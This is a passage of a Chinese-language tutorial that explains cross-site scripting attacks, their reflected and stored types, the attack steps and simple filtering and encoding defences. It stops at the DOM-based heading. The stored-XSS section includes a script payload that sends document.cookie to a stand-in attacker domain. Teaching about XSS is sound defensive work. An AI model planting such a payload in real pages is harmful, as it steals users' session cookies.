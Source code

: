 ## XSS攻击 介绍

XSS 即（Cross Site Scripting）中文名称为：跨站脚本攻击。XSS的重点不在于跨站点，而在于脚本的执行。

原理：恶意攻击者在web页面中会插入一些恶意的script代码。当用户浏览该页面的时候，那么嵌入到web页面中script代码会执行，因此会达到恶意攻击用户的目的。那么XSS攻击最主要有如下分类：反射型、存储型、及 DOM-based型。 反射性和DOM-baseed型可以归类为非持久性XSS攻击。存储型可以归类为持久性XSS攻击。

## 危害

- 窃取网页浏览中的cookie值
- 劫持流量实现恶意跳转

## 反射型XSS

反射性XSS的原理是：反射性xss一般指攻击者通过特定的方式来诱惑受害者去访问一个包含恶意代码的URL。当受害者点击恶意链接url的时候，恶意代码会直接在受害者的主机上的浏览器执行。

反射性XSS又可以叫做非持久性XSS。为什么叫反射型XSS呢？那是因为这种攻击方式的注入代码是从目标服务器通过错误信息，搜索结果等方式反射回来的，而为什么又叫非持久性XSS呢？那是因为这种攻击方式只有一次性。

比如：攻击者通过电子邮件等方式将包含注入脚本的恶意链接发送给受害者，当受害者点击该链接的时候，注入脚本被传输到目标服务器上，然后服务器将注入脚本 "反射"到受害者的浏览器上，从而浏览器就执行了该脚本。

因此反射型XSS的攻击步骤如下：

1. 攻击者在url后面的参数中加入恶意攻击代码。
2. 当用户打开带有恶意代码的URL的时候，网站服务端将恶意代码从URL中取出，拼接在html中并且返回给浏览器端。
3. 用户浏览器接收到响应后执行解析，其中的恶意代码也会被执行到。
4. 攻击者通过恶意代码来窃取到用户数据并发送到攻击者的网站。攻击者会获取到比如cookie等信息，然后使用该信息来冒充合法用户
的行为，调用目标网站接口执行攻击等操作。

常见类型：如恶意链接。

## 存储型XSS

存储型XSS的原理是：主要是将恶意代码上传或存储到服务器中，下次只要受害者浏览包含此恶意代码的页面就会执行恶意代码。

比如一个博客网站，攻击者在上面发布了一篇文章，内容是如下：<script>window.open("www.gongji.com?param="+document.cookie)</script> 如果没有对该文章进行任何处理的话，直接存入到数据库中，那么下一次当其他用户访问该文章的时候，服务器会从数据库中读取后然后响应给客户端，那么浏览器就会执行这段脚本，然后攻击者就会获取到用户的cookie，然后会把cookie发送到攻击者的服务器上了。

因此存储型XSS的攻击步骤如下：

1. 攻击者将恶意代码提交到目标网站数据库中。
2. 用户打开目标网站时，网站服务器将恶意代码从数据库中取出，然后拼接到html中返回给浏览器中。
3. 用户浏览器接收到响应后解析执行，那么其中的恶意代码也会被执行。
4. 那么恶意代码执行后，就能获取到用户数据，比如上面的cookie等信息，那么把该cookie发送到攻击者网站中，那么攻击者拿到该
cookie然后会冒充该用户的行为，调用目标网站接口等违法操作。

防范：

1. 后端需要对提交的数据进行过滤。
2. 前端也可以做一下处理方式，比如对script标签，将特殊字符替换成HTML编码这些等。

## DOM-based型XSS
